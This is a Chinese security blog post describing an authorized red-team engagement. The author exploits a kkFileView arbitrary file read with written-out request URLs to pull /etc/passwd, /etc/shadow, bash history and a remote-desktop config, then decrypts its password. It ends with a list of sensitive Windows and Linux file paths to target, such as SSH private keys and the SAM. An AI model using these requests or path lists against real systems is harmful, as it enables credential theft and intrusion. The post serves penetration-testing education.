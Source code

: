 某次攻防演练中对任意文件读取漏洞的利用

[TideSec](https://www.freebuf.com/author/TideSec)2023-07-05 10:33:57267837

 所属地 山东省

**声明**：本次演练中，所有测试设备均由主办方提供，所有流量均有留档可审计，所有操作均在授权下完成，所有数据在结束后均已安全销毁。

攻防演练参加的越多，越发感觉打点越来越难。。。之前shiro反序列化之类可以无脑getshell的漏洞还挺多的，今年已经鲜有遇到了。这是上次遇到某目标的打点过程，记录一下。

## 过程记录

其他不多说了，直接复述一下对目标ip的测试过程。

![图片](https://image.3001.net/images/20230705/1688524437_64a4d695bb83c495e1685.png!small)

简单扫了一眼，资产挺多，但是没啥能利用的（技术不到位）。挨页点着翻，看到了kkfileview，这个之前也遇到过，但是也没多想过。这次搜了下它的漏洞，结果发现还挺多的，顿时有一种错过好几个shell的感觉。。。。。

![图片](https://image.3001.net/images/20230705/1688524439_64a4d6978ebf9ddd4a753.png!small)

## 任意文件读取漏洞测试

看到存在任意文件读取，就想通过这个漏洞看能不能利用下。用户历史命令记录文件

```
http://ip/getCorsFile?urlPath=file:///../../root/.bash_history
```

![图片](https://image.3001.net/images/20230705/1688524441_64a4d69943da9e2b1ed43.png!small)

账户信息

```
http://ip/getCorsFile?urlPath=file:///../..//etc/passwd
```

![图片](https://image.3001.net/images/20230705/1688524442_64a4d69abd0cdbce79dc4.png!small)

读取账户密码文件，加密解不开。。。

```
http://ip/getCorsFile?urlPath=file:///../..//etc/shadow/
```

![图片](https://image.3001.net/images/20230705/1688524444_64a4d69c2fc0f9dd1570a.png!small)

测试很多个常见路径都没什么收获，然后另外一个哥们找到了些东西。查看网站目录

```
http://ip/getCorsFile?urlPath=file:///data/
```

![图片](https://image.3001.net/images/20230705/1688524445_64a4d69dab7618524859d.png!small)

在某个目录下找到了一个jar包

![图片](https://image.3001.net/images/20230705/1688524446_64a4d69eac1e83ae6a51e.png!small)

通过逆向jar包，发现jar包中BOOT-INF\classes\application-dev.yml文件存在数据库账号密码：

![图片](https://image.3001.net/images/20230705/1688524447_64a4d69fb6d5828ef6587.png!small)

这是阿里云数据库的账号密码

![图片](https://image.3001.net/images/20230705/1688524449_64a4d6a1d6ce3c8fa5323.png!small)

阿里云上也有若干收获，这里就不详述了。重点来了，经过若干次翻目录，竟然找到了向日葵的配置文件。。

```
http://IP/getCorsFile?urlPath=file:////etc/orayconfig.conf
```

![图片](https://image.3001.net/images/20230705/1688524451_64a4d6a37c347bccbf36e.png!small)

encry_pwd(本机验证码) fastcode(本机识别码)，注意faskcode值第一个英文字母不要，只需要后面数字即可。值为明文保存所以不需要解密

```
fastcode=k****
encry_pwd=****
```

然后使用解密脚本Sunflower_get_Password解密

```
pip3 install unicorn
```

![图片](https://image.3001.net/images/20230705/1688524453_64a4d6a516fb74775962a.png!small)

向日葵登录后就可以在内网直接Tscan扫描了，不过没有很多东西。另外记一下任意文件读取的路径，以后可能用得到

```
## windows

C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息

## linux

/root/.ssh/authorized_keys //如需登录到远程主机，需要到.ssh目录下，新建authorized_keys文件，并将id_rsa.pub内容复制进去
/root/.ssh/id_rsa //ssh私钥,ssh公钥是id_rsa.pub
/root/.ssh/id_ras.keystore //记录每个访问计算机用户的公钥
/root/.ssh/known_hosts
//ssh会把每个访问过计算机的公钥(public key)都记录在~/.ssh/known_hosts。当下次访问相同计算机时，OpenSSH会核对公钥。如果公钥不同，OpenSSH会发出警告， 避免你受到DNS Hijack之类的攻击。
/etc/passwd // 账户信息
/etc/shadow // 账户密码文件
/etc/my.cnf //mysql 配置文件
/etc/httpd/conf/httpd.conf // Apache配置文件
/etc/redhat-release 系统版本 
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/var/lib/mlocate/mlocate.db //全文件路径
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/porc/self/cmdline //当前进程的cmdline参数
/proc/sched_debug 配置文件可以看到当前运行的进程并可以获得对应进程的pid
/proc/pid/cmdline   则可以看到对应pid进程的完整命令行。
/proc/net/fib_trie   内网IP
/proc/self/environ   环境变量
/proc/self/loginuid   当前用户
```

## 总结

打点的过程还是要仔细，任何小细节都不能放过。一开始通过这个IP想着也就有个任意文件读取和SSRF，经过一步步的翻目录后找到的资产还不算少，可能总共得分不多，但也算给自己涨涨经验，以后渗透不能只贪快，也要细致。